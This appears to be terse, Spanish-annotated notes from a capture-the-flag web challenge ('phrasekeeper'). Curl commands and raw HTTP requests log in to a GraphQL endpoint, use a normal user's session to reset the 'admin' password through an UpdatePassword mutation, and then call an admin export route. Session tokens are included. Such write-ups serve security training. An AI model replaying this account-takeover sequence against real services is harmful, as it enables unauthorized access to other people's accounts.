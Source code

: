 
```bash
 ┌──(kali㉿kali)-[~/…/11-29-adf-cyber-skills/web/phrasekeeper/web_phrasekeeper]
└─$ curl 'http://134.209.19.24:32724/graphql' \
  -X POST \
  -H 'content-type: application/json' \
  --data '{"query":"mutation($username: String!, $password: String!) { LoginUser(username: $username, password: $password) { message, token } }","variables":{"username":"hacker","password":"hacker"}}'
{"data":{"LoginUser":{"message":"User logged in successfully!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImhhY2tlciIsImlzX2FkbWluIjowLCJpYXQiOjE2Njk5Mjc0NDd9.mQzH4-z1biYh_ir8hGDthcfU0geC3yYjZqsy7tbts"}}}
```

```bash
```bash
curl 'http://134.209.19.24:32724/graphql' -X POST -H 'Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImhhY2siLCJpc19hZG1pbiI6MCwiaWF0IjoxNjY5ODU2NzM5fQ._h0X10e_Rg2dJRTiavLobVSduUw3_W-YyWfPmdH5YYY' -H 'content-type: application/json' --data '{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }","variables":{"username":"hacker","password":"mama"}}'
```

- cambiar passs siendo user
```
POST /graphql HTTP/1.1
Host: 134.209.19.24:32724
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://134.209.19.24:32724/dashboard
Content-Type: application/json
Origin: http://134.209.19.24:32724
Content-Length: 191
Connection: close
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImhhY2tlciIsImlzX2FkbWluIjowLCJpYXQiOjE2Njk5Mjc4Mjh9.QjLc36JcPBB4oxddk5g7gwBlIjUedRZ5kDd4NziGXQA

{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }","variables":{"username":"admin","password":"mama"}}
```



- exportar como admin

```
GET /admin/export?filename=xfile HTTP/1.1
Host: 134.209.19.24:32724
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://134.209.19.24:32724/settings
Connection: close
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaXNfYWRtaW4iOjEsImlhdCI6MTY2OTkzMDA1Nn0.PONs2JgMP473d6xS-X-rFM9T4qiWHx1E2wr_ccLnIAk
`

```


## Referencias

https://www.maxivanov.io/make-graphql-requests-with-curl/
https://github.com/gluckzhang/ctf-jwt-token/blob/master/give_me_the_flag.py